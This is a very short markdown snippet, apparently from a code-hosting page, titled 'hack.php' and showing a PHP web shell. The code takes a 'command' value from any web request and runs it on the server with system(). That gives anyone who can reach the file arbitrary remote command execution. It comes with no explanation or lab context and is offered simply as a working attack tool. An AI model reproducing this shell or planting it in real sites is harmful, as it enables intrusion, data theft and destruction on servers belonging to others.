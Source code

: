 # `hack.php`

Refer to below.

```PHP
<?php 
if (isset($_REQUEST['command'])) {
  $command = $_REQUEST['command'];
  system($command);
}
?>
```
